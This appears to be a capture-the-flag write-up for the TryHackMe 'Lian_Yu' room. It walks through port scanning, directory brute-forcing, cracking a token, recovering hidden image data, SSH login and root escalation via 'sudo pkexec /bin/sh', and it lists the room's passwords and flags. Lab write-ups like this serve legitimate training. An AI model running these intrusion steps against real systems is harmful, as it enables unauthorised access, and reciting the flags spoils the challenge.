

# Lian_Yu

--------------------------------------------------------------------

**TOOLS USED**: nmap, feroxbuster, gobuster, hexeditor, binwalk, exiftool

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.13.58

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info
```
nmap --sC -sV 10.10.13.58
```



**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.2)<br>
    22 (ssh OpenSSH 6.7p1),<br>
    80 (http Apache httpd),<br>
    111 (rcpbind 2-4)

Enumerate hidden directories on webserver
```
feroxbuster -u http://10.10.13.58 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Directory of Interest: /island, /island/2100

Found codeword in /island<br>
**CODEWORD**: vigilante


Need to get .ticket file


Use feroxbuster to find files with .ticket extension<br>
-t THREADS (default 10)
```
gobuster dir -u http://10.10.13.58/island/2100 -x .ticket -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15
```


**FILE**:/green_arrow.ticket


**TOKEN**: RTy8yhBQdscX

Tried using it as ftp password but didn't work<br>
Might be some type of hash

Use cyberchef to identify and crack it


**PASSWORD**: !#th3h00d

### 2. FTP LOGIN

```
ftp vigilante@10.10.13.58
```


Found images and files

```
cat .other_user
```


**USERNAME**: slade

```
binwalk *
```


```
exiftool *
```

Leave_me_alone.png has file format error


Check header
```
hexeditor Leave_me_alone.png
```


Correct png header
```
hexeditor Queen\'s_Gambit.png
```


Edit header to match Queen's_Gambit.png


Open image


**PASSWORD**: password

Use this to unlock other images
```
steghide extract -sf aa.jpg
```

Found ss.zip

```
unzip ss.zip
```


**PASSWORD**: M3tahuman

### SSH LOGIN

```
ssh slade@10.10.13.58
```


**USER FLAG**: THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}

### 4. PRIVIEGE ESCALATION

Check privileges
```
sudo -l
```


slade can run /usr/bin/pkexec as root

from https://gtfobins.github.io/gtfobins/pkexec/#sudo
```
sudo pkexec /bin/sh
```


**ROOT FLAG**: THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}